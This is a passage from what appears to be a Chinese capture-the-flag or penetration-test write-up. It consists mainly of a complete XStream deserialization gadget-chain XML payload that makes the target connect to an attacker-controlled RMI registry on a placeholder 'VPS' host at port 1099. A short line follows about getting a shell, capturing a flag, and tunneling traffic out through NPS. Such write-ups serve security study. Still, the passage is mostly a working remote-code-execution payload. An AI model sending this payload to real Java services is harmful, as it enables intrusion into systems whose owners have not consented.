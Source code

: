 ```plain
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>VPS</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>VPS</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

拿到 shell 后，获取`第一个flag` 后，自行做一个 `NPS` 隧道带出流量

[![](assets/1710899037-08c76212dcdbc08a8c12635e1328b7af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205159-fecf6bf0-d56e-1.png)

